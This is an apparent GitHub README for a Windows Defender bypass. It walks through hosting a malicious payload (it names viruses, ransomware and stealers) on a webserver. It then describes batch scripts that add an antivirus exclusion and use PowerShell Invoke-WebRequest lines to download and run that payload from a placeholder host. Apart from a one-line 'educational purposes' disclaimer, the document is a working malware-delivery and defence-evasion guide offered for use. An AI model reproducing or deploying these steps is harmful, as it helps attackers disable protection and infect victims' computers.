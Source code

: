# Windows Defender Bypass
Fully undetectable bypass for Windows Defender and every other antivirus (FUD at the moment). Works by downloading a bat file that adds an exclusion for exe files, and then downloads your file and runs it.
# This project is intended for research/educational purposes only.
# Setup
If you already have a webserver, skip to step 2.  
  
1, To start setting up the bypass, you will need a webserver, you can create one by heading over to https://replit.com and creating an HTML, CSS & JS repl, after that, you will need to run the repl. It should then open up a website preview and give you the webserver URL above it.  
  
2, Upload the file you wish to execute (virus, ransomware, stealer, etc) to the webserver and rename the file to installer.exe.  
  
3, Edit line 31 in the installer.bat file:  
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.exe' -OutFile installer.exe"
```
Change https://YOURSITE.COM/installer.exe to your webserver URL. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.exe  
  
4, Upload the installer.bat to your webserver.
5, Edit line 4 in the main.bat file:
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.bat' -OutFile installer.bat"
```
Replace https://YOURSITE.COM/installer.bat with your webserver URL and the path to the installer.bat file. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.bat  
  
6, Done. The file you would use to bypass windows defender would be main.bat. You can convert it to an executable but this will raise the number of detections. If this helped you, make sure to star this repository (;
